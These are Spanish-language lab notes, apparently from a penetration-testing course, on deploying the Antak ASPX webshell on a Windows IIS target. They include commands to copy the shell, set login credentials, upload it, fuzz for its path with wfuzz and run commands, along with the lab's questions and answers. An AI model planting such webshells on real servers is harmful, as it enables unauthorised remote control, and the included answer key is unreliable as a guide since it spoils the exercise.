 *ACTIVE SERVER PAGE EXTENDED* (ASPX) es un tipo de archivos con extensión escritos para los FRAMEWORKS de MICROSFOTS ASP.NET.

Sobre este tipo de servidores podemos utilizar webshells del tipo ASPX.


# ANTAK Webshell
- Funciona como una consola de PowerShell dentro de un navegador.    
- Puede:
    - Ejecutar comandos como nuevos procesos.
    - Ejecutar scripts en memoria        
    - Codificar comandos.
    - Subir y descargar archivos.    
Los archivos se ubican en:
```
/usr/share/nishang/Antak-WebShell
antak.aspx Readme.md
```

## ¿Cómo utilizar ANTAK?
Copiamos la webshell en un directorio local, con el comando:
```
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```

- Modificamos la línea 14 para establecer usuario y contraseña.    

Para agilizar el proceso, subiremos esta webshell a la misma web que los apuntes anteriores "WEBSHELLS LAUDANUM".
Pues, como la máquina es Windows esta seguirá funcionando aquí. 
Subimos la webshell al servidor, la ejecutamos accediendo a "http://status.inlanefreight.local/files"

Esta, nos abre una interfaz que nos pide el usuario y contraseña establecidos anteriormente.
Y ya tenemos la interfaz interactiva sobre la que podemos trabajar e inyectar comandos.

![[Pasted image 20250905113526.png]]

---
**QUESTIONS**
**TARGET: 10.129.42.197**
**vHosts needed for these questions: - status.inlanefreight.local**

**1. Where is the Antak webshell located on Pwnbox? Submit the full path. (Format:/path/to/antakwebshell)
Respuesta:** */usr/share/nishang/Antak-WebShell/antak.aspx*

**2. Establish a web shell with the target using the concepts covered in this section. Submit the name of the user on the target that the commands are being issued as. In order to get the correct answer you must navigate to the web shell you upload using the vHost name. (Format: ****\****, 1 space)*** 

En primer lugar, en la máquina atacante añadimos el VHOST que aloja la máquina víctima, con:
```
echo "10.129.42.197 status.inlanefreight.local" | sudo tee -a "/etc/hosts"
```
Este comando lo que hace es añadir a /etc/hosts el texto "10.129.42.197 status.inlanefreight.local".
Esta página, al final de todo, nos permite subir un archivo. Aqui es donde subiremos la webshell. Pide que el formato sea únicamente .zip o tar.gz files.

Nos copiamos el archivo:
```
/usr/share/nishang/Antak-WebShell/antak.aspx
```
En nuestro directorio, y establecemos un usuario y contraseña por defecto, modificando la línea 14 del archivo antak.aspx:
```
if (Username.Text == "pol" && Password.Text == "pol")
```

Subimos dicha Shell al servidor con la opción de "Upload File", y vamos a realizar fuzzing para descubir donde se aloja dicho archivo.
Ejecutamos:
```
wfuzz --hl=29 -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://status.inlanefreight.local/FUZZ
```
Y nos devuelve que existe el subdirectorio
```
http://status.inlanefreight.local/files
```

Pues, desde el navegador ejecutamos: 
```
http://status.inlanefreight.local/antak.aspx
```

Y ingresamos con usuario y contraseña pol:pol a la interfaz, y ejecutando un simple "whoami" obtengo la respuesta del ejercicio: *iis apppool\status*.

